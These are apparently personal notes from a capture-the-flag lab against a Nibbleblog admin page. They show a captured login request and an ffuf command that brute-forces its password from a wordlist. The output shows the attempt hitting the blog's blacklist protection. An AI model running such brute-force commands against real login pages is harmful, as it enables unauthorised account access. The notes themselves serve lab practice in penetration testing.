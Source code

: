 `/nibbleblog/admin.php`

requets 
```
POST /nibbleblog/admin.php HTTP/1.1
Host: 10.10.10.75
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: http://10.10.10.75
Connection: close
Referer: http://10.10.10.75/nibbleblog/admin.php
Cookie: PHPSESSID=2e4lqk1ejb1cbtpeeh9h31t5g2
Upgrade-Insecure-Requests: 1

username=admin&password=password
```


# ffuf
```
$ ffuf -request ./login-req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt -fs 1541
```

```
football                [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 307ms]
baseball                [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 307ms]
dragon                  [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 307ms]
696969                  [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 307ms]
abc123                  [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 307ms]
1234567                 [Status: 200, Size: 48, Words: 6, Lines: 1, Duration: 307ms]
```
response size 48
response is coming back as `Nibbleblog security - blacklist protection`
website seems to have some ip rate-limiting protection implemented


